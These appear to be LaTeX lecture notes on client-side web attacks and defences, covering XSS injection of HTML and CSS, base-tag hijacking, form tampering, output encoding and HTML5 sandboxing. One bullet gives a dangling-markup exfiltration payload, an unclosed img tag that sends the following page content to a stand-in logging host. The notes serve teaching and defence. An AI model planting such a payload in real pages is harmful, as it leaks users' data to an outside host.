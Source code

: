 \documentclass[12pt,titlepage,a4paper]{report}
\begin{document}
	\subsection{Advanced client-side attacks and defences}
	\begin{itemize}
		\item Alternative injection attack vectors
		\begin{itemize}
			\item Not only JS code can be injected through XSS: also HTML, CSS, ...
			\item Data exfiltration by inserting non-closed tags with URL
			\begin{itemize}
				\item \texttt{<img src=`https://ex.com/log.php?} can capture all following page contents until the next single quote '
			\end{itemize}
			\item Hijacking relative URLs by injecting a base tag
			\item Modifying form parameters (field values, destinations, ...)
			\item Prevention:
			\begin{itemize}
				\item Avoid confusion between data and code
				\item Context-sensitive output encoding works perfectly
				\item Sanitization is tricky, since the content seems harmless
			\end{itemize}
		\end{itemize}
	
		\item HTML5 sandboxing
		\begin{itemize}
			\item Origin-based context isolation
			\begin{itemize}
				\item leverages the Same-Origin Policy.
				\item isolates main application from untrusted parts
			\end{itemize}
			\item Sandbox attribute
			\begin{itemize}
				\item impose constraints on the behaviour of the content
				\item default: content has a unique origin, no script execution, no form submission, no external navigation, no pop-ups, no plug-in content, no full-screen capabilities
			\end{itemize}
		\end{itemize}
	

\end{itemize}
\end{document}
